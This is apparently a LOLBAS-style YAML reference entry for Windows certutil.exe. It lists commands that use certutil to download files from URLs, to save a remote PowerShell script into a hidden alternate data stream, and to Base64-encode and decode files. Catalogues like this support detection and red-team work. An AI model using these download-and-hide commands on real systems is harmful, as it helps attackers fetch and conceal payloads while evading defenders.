 ```yaml
---
Name: Certutil.exe
Description: Download, Add ADS, Decode, Encode
Author: ''
Created: '2018-05-25'
Categories: []
Commands:
  - Command: "certutil.exe -urlcache -split -f http://7-zip.org/a/7z1604-x64.exe 7zip.exe"
    Description: 'Download and save 7zip to disk in the current folder.'
  - Command: "certutil.exe -urlcache -split -f https://raw.githubusercontent.com/Moriarty2016/git/master/test.ps1 c:\\temp:ttt"
    Description: 'Download and save a PS1 file to an Alternate Data Stream (ADS).'
  - Command: "certutil -encode inputFileName encodedOutputFileName \ncertutil -decode encodedInputFileName decodedOutputFileName"
    Description: 'Commands to encode and decode a file using Base64.'
Full Path:
  - c:\windows\system32\certutil.exe
  - c:\windows\sysWOW64\certutil.exe
Code Sample: []
Detection: []
Resources:
  - https://twitter.com/Moriarty_Meng/status/984380793383370752
  - https://twitter.com/mattifestation/status/620107926288515072
Notes: Thanks to Matt Graeber - @mattifestation, Moriarty - @Moriarty2016
---
```


